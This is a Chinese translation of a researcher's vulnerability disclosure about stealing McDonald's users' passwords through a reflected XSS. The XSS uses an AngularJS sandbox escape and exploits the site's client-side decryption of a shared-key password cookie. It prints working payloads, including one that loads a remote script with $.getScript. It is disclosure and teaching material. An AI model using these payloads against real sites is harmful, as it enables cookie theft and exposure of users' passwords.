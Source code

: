 # 从麦当劳的用户中窃取密码

## 通过AngularJS沙盒执行反射型xss导致麦当劳用户的密码泄露
> 通过滥用不安全的加密存储和反射形跨站脚本攻击可以获取到麦当劳用户的明文密码。当然了，其他个人信息，如用户名，地址和联系方式也会被窃取

### 0x01 
> 反射xss利用AngularJS沙盒进行绕过转义

McDonalds.com 有一个搜索的页面，这个页面显示了搜索参数q的值。因此，当我们进行一个搜索测试`***********-test-reflected-test-***********` 响应如下显示：
![image](https://finnwea.com/blog/stealing-passwords-from-mcdonalds-users/search-value-test-preview.png)

![image](https://finnwea.com/blog/stealing-passwords-from-mcdonalds-users/search-value-test-reflected.png)

麦当劳使用了AngularJS，因此我们可以尝试去打印唯一的作用域ID，我们可以通过将q参数值更改为`{{$id}}`来完成这个操作。我们可以看见{{$id}}获得并更改为这个AngulraJS唯一的范围ID（单调递增）
![image](https://finnwea.com/blog/stealing-passwords-from-mcdonalds-users/search-value-angular-id-preview.png)
![image](https://finnwea.com/blog/stealing-passwords-from-mcdonalds-users/search-value-angular-id-reflected.png)

尝试使用{{alert(1)}}作为值 但是并没有起作用，因为所有的AngularJS代码都是在沙箱里面执行的，然而，AngularJS沙盒并不是很安全，事实上它根本不应该信任。[它甚至在1.6版本中被删除](https://docs.angularjs.org/guide/security#sandbox-removal)，它提供了一个错误的保护。[PortSwigger写了一篇关于AngularJS沙盒逃逸的好文章](https://note.youdao.com/)

我们首先需要知道McDonalds.com的AngularJS版本。我们可以在控制台上面执行`angular.version`

![image](https://finnwea.com/blog/stealing-passwords-from-mcdonalds-users/angular-version.png)

这个版本是1.5.3，所以沙盒逃脱的payload就是
`{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}`
我们使用这个payload作为搜索参数的值，就可以发现成功弹窗

![image](https://finnwea.com/blog/stealing-passwords-from-mcdonalds-users/alert-1-in-chrome.png)

### 0x02

> *窃取用户的密码*
另外一件事情就是 我注意到在McDonalds.com上有一个非常特殊的复选框。一般来说 你可以在登陆的时候选择“记住我”（Remember me）。但是！麦当劳的登陆页面却给了我们一个选项->记住密码。

![image](https://finnwea.com/blog/stealing-passwords-from-mcdonalds-users/mcdonalds-login-form.png)

我通过搜索所有JavaScript代码的关键词password发现了一些很有意思的解密代码

![image](https://finnwea.com/blog/stealing-passwords-from-mcdonalds-users/source-search-password.png)

![image](https://finnwea.com/blog/stealing-passwords-from-mcdonalds-users/cookie-pass-decrypt-source.png)


如果有一件事情是不能做的，那么就是在客户端里面解密代码或者使用对称加密。我尝试在我自己的客户端里面运行代码并且成功执行

![image](https://finnwea.com/blog/stealing-passwords-from-mcdonalds-users/decrypt-get-cookie-penc.png)
`penc`的值是以cookie的形式存储一年，23333!
![image](https://finnwea.com/blog/stealing-passwords-from-mcdonalds-users/penc-cookie.png)

麦当劳使用了CryptoJS 去加密和解密敏感数据。他们为每一个用户都使用了相同的key和iv。所以我只需要偷取别人的`penc` cookie 就可以去解密得到他的明文密码.
![image](https://finnwea.com/blog/stealing-passwords-from-mcdonalds-users/encrypt-decrypt-source.png)

我识图在搜索页面上使用一个恶意的payload来解密我的密码，但是没有起作用，因为AngularJS沙盒逃逸的payload 将**charAt替换为join，因此getCookie函数失效**。getcookie函数尝试在cookie值里面通过检测charAt(0)是否为空格 来达到删除空格的目的。在下面的图片中，你可以看见如果在搜索页面上面执行charAT(0) 将会返回了由0拼接的一个字符串。
![image](https://finnwea.com/blog/stealing-passwords-from-mcdonalds-users/char-at-fail.png)
![image](https://finnwea.com/blog/stealing-passwords-from-mcdonalds-users/char-at-success.png)

我写了一些JS,在首页上嵌套一个iframe，并利用iframe窃取cookie。由于沙盒逃逸导致了payload被多次执行，所以我通过变量xssisExecuted限制执行条件,这样子paload只会执行一次
```
if (!window.xssIsExecuted) {
    window.xssIsExecuted = true;

    var iframe = $('<iframe src="https://www.mcdonalds.com/us/en-us.html"></iframe>');
    $('body').append(iframe);

    iframe.on('load', function() {
        var penc = iframe[0].contentWindow.getCookie('penc');
        alert(iframe[0].contentWindow.decrypt(penc));
    });
}
```
我们现在使用这个exp就可以导致我的密码出现在弹窗中！
```
{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=$.getScript(`https://finnwea.com/snippets/mcdonalds-password-stealer.js`)');}}
```
![image](https://finnwea.com/blog/stealing-passwords-from-mcdonalds-users/alert-my-password.png)


## END
这些理解起来都很简单，但是我多次向麦当劳联系并报告这个问题，但是他们并没有回应，这也是我为何披露这个漏洞 

原文链接:https://finnwea.com/blog/stealing-passwords-from-mcdonalds-users/#void

